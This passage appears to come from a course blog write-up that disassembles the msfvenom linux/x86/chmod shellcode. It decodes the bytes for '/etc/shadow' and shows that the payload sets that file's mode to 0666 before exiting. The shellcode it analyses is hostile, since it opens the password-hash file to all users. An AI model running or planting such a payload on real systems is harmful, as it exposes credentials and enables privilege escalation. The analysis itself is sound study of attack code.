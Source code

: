 In this case for `linux/x86/chmod` payload the registers will looks like: 
- `eax` = `0xf` ~ 15
- `ebx` = path name ~ default `/etc/shadow`
- `ecx` = mode in octal ~ default 0666

{% highlight nasm %}
0000000A  2F                das
0000000B  657463            gs jz 0x71
0000000E  2F                das
0000000F  7368              jnc 0x79
00000011  61                popa
00000012  646F              fs outsd
00000014  7700              ja 0x16
{% endhighlight %}

If we combine the sequence of bytes from above code (`2F 657463 2F 7368 61 646F 7700`), we can convert to ascii by using python, it become `/etc/shadow\x00` which is the path name argument of `chmod()`.

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/msfvenom$ python3 -c 'print(bytes.fromhex("2F6574632F736861646F7700"))'
b'/etc/shadow\x00'
{% endhighlight %}

The instruction after the `/etc/shadow` string is `pop ebx` which will store the `/etc/shadow` in to `ebx` register that will use to call `chmod()` syscall.

{% highlight nasm %}
00000016  5B                pop ebx
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
0000001D  CD80              int 0x80
{% endhighlight %}

The file mode which is in octal set on `ecx` register, in this case 666 which is the default of `linux/x86/chmod` payload.
To get the octal number from hex:

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/msfvenom$ python3 -c "print(oct(0x1b6))"
0o666
{% endhighlight %}

and the `chmod()` syscall get called by `int 0x80`, and here is the final command:
```
chmod('/etc/shadow', 0666)
```

and the last block is the `exit()` syscall (`0x1`).
{% highlight nasm %}
0000001F  6A01              push byte +0x1
00000021  58                pop eax
00000022  CD80              int 0x80
{% endhighlight %}
